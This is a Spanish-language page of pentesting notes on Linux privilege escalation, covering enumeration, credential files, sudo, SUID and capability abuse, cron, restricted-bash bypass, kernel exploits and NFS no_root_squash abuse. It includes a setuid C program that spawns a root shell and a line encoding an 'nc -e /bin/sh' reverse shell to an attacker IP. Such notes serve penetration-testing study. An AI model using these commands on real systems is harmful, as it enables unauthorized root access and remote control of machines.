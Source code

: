 ## Enumeración básica

``` bash
*** ls -la a la raiz del sistema siempre ***
id # privilegios usuario actual (lxd o docker)
uname -a # información kernel
su - <user> # no perder las variables
lsb_release -a # enumerar info del S.O
env # para ver las variables del sistema
ss -tulpn # ver puertos/servicios internos que hay abiertos
netstat -a # muestra todos los puertos que estan en escucha y conectados
ps aux # procesos ejecutandose en el sistema de manera ordenada
cat /etc/login.defs | grep “ENCRYPT_METHOD” # ver que tipo de encriptación se utiliza en el sistema en los hashes de las passwords
hash-indentifier # para ver que tipo de encryptacion tiene el hash
hashid <hash>
ps -eo user,command # reporta todos los comandos que se están ejecutando en el sistema
watch -d 'ps -ef # Procesos a tiempo real como pspy64'
#shell
python3 -c 'import ptpy;pty.spawn("/bin/bash")'
python -c 'import ptpy;pty.spawn("/bin/bash")'
ps aux --sort="-%mem" |more # procesos ejecutanose
curl "http://192.168.1.2/login.php" --data-urlencode 'username=admin&password=pass123' # Enviar datos url encodeados 
php -r 'print urlencode("nc -e /bin/sh 192.168.218.147 5344");' ;echo # Encodear datos
```

### Abusando de grupos

- [lxd/lxc](https://j4ckie0x17.gitbook.io/notes-pentesting/escalada-de-privilegios/linux/abusando-grupo-lxd-lxc)

- [pcap](https://j4ckie0x17.gitbook.io/notes-pentesting/escalada-de-privilegios/linux/abusando-grupo-pcap)

## Comprobar rutas importantes


``` bash
# Rutas core
/etc/passwd | cut ":" -f 1
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/home/<user>/
/home/<user>/.ssh
/home/<user>/bash_history
# Comprobar que haya subdominios
/etc/nginx/sites-available
/etc/apache2/sites-available
```

### Enumeración automatizada

- LinPeas: [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

- Linux Smart Enumeration: [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

- LinEnum: [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)


## Abuso permisos sudo

``` bash
sudo -l # comprobar que el usuario actual tiene capacidad de ejecutar un binario como root
```

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FmvX9l4BBwhij56cwtYtY%252Fimagen.png%3Falt%3Dmedia%26token%3D911accba-2f48-4531-b6e7-87466a56c75e&width=768&dpr=4&quality=100&sign=6cb66ffe5970351094f92961a9c95f60738488c2c4880b85f74a21d5761def41)

Si nos encontramos con env_keep+=LD_PRELOAD en el sudo -l podríamos hacer que cualquier programa utilice librerías compartidas, para saber como explotarlo accede a este [link](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)

## Abuso permisos SUID

``` bash
find / -perm -4000 2>/dev/null # enumerar privilegios SUID
find / -perm -4000 2>/dev/null | grep “etc” # enumerar por archivos que estenexi en la ruta /etc/
find / -perm -4000 -o- -perm -2000 -o- -perm -6000 # enumerar grupos
```

## Encontrar carpetas/archivos que podemos escribir


``` bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u # directorios
find / -writable 2>/dev/null | grep -v -i -E 'proc|run|sys|dev' # archivos
```

## Enumerar tareas en proceso (cronjob)

``` bash
cat /etc/crontab o crontab -l
cat /var/spool/cron # para las cronjobs del sistema
cat /etc/anacron
systemctl list-timers # ver tareas que se van a ejecutar en los proximos minutos
```

### Monitorizador comandos script bash

``` bash
#!/bin/bash
old_process=$(ps -eo user,command)
while true; do
        new_process=$(ps -eo user,command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
        old_process=$new_process
done
```

## Abuso Capabilites

``` bash
getcap -r / 2>/dev/null # de forma recursiva ver las capabilities que hayan definidas en el sistema
setcap -r <ruta> # quitar capabilty
setcap cap_setuid+ep <ruta del archivo> # asignar SUID permisios a la ruta
```

## Bypass restricted bash


``` bash
ssh user@ip bash # y después realizamos el tratamiento de la TTY
ssh user@ip 'bash --norc --noprofile'
```

## NFS

NFS (Network File System) es un protocolo de red utilizado para compartir sistemas de archivos entre computadoras. En el contexto de la escalada de privilegios en Linux, NFS puede ser utilizado como una técnica para obtener acceso a archivos o directorios que no son accesibles por defecto para un usuario sin privilegios.

Y se encuentra en este archivo:

``` bash
/etc/exports
```

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252Fl1fXjFHQP55lXPnocFuR%252Fimagen.png%3Falt%3Dmedia%26token%3D7a51ba38-5067-444e-9a5d-06877c9c97b8&width=768&dpr=4&quality=100&sign=c15bd4d657ad9ccb963bc959bd16549948a4ccf50fa8233fc3373029468be1c4)

El elemento crítico para este vector de escalada de privilegios es la opción "no_root_squash" que puede ver arriba. De forma predeterminada, NFS cambiará el usuario raíz a nfsnobody y eliminará cualquier archivo para que no funcione con privilegios de raíz. Si la opción "no_root_squash" está presente en un recurso compartido grabable, podemos crear un ejecutable con el conjunto de bits SUID y ejecutarlo en el sistema de destino.

Primero tenemos que enumerar los recursos compartidos montables de la máquina victima:

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FjDUVGqE8KvN7IZUsExvR%252Fimagen.png%3Falt%3Dmedia%26token%3Dbc38b2eb-e69a-4f50-a53c-fd4fef73bfa8&width=768&dpr=4&quality=100&sign=52678f29251f4916884580faea324db856ad289071b5d238bbd405f4bea68471)

Montaremos un recurso compartido "no_root_squash" en nuestra máquina local

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FFdUXoLfjz6IQgPjmnGND%252Fimagen.png%3Falt%3Dmedia%26token%3D92297b52-d145-4bdd-8a07-522736f71f51&width=768&dpr=4&quality=100&sign=c0313f43f2eda927dc020ccce7bc357859209bdac901a7b140367cd65eb5dbc0)

Creamos un script con C con una /bin/bash y que nos de root cuando se ejecute en la victima


``` bash
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Lo compilamos y le damos permisos SUID

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252F8V6t3iClp332K10qdGIf%252Fimagen.png%3Falt%3Dmedia%26token%3Dd250d589-cdfb-4ce2-8702-b46f783f78a1&width=768&dpr=4&quality=100&sign=df97bc0e3b5e6c03a7a23a25552b7f0b875d93c09e1a9e254912b76dcfbc9563)

No hace falta transferirlos por qué ya está en la máquina victima ya que hemos estado trabajando en ella mediante un recurso compartido.

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FwryJBgnXkQGYibiqyO4r%252Fimagen.png%3Falt%3Dmedia%26token%3D938aab09-bf93-487b-a872-b2ce64fbcf63&width=768&dpr=4&quality=100&sign=532d8c89d1fdb50c26b2936655e026dcc08d27bc0a607739fe0da6336cf40fc8)

Lo ejecutamos y somos root

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FzK261O2yZrUKcsKj9CSV%252Fimagen.png%3Falt%3Dmedia%26token%3D6cde92a9-5831-4cff-8545-c1056488994b&width=300&dpr=4&quality=100&sign=f9410a7fa0ef3e982394f81c1ecbde73bf1d5ec3368b43fb7abe42446593b6b3)

## Kernel exploits

```
uname -a
lsb_release -a
```

### Consejos

1. Se muy especifico a la hora de buscar la version del kernel en exploitdb,google o searchsploit.

2. Entiende muy bien el exploit antes de ejecutarlo, a veces se tienen que modificar.

3. Puede que el script se tenga que interactuar en el futuro así que cuidado.

4. Para traspasar el exploit a la máquina victima, como siempre la carpeta /tmp y en tu máquina abres un servidor `python3 -m http.server 9000`


Si creemos que puede que el sistema comprometido es vulnerable de kernel, como un script que no sea de ese mismo kernel lo ejecutemos en el sistema puede romperlo.

Para asegurarnos tenemos [LES (Linux Exploit Suggester)](https://github.com/jondonas/linux-exploit-suggester-2) que nos ayudará a saber cual es el CVE correcto para ejecutar.

## Analizar archivos

``` bash
ltrace <archivo> # se utiliza para rastrear las llamadas a funciones bibliotecarias que hace un programa en tiempo de ejecución.
strings <archivo> #  busca en un archivo binario (como un archivo ejecutable o una biblioteca compartida)
```
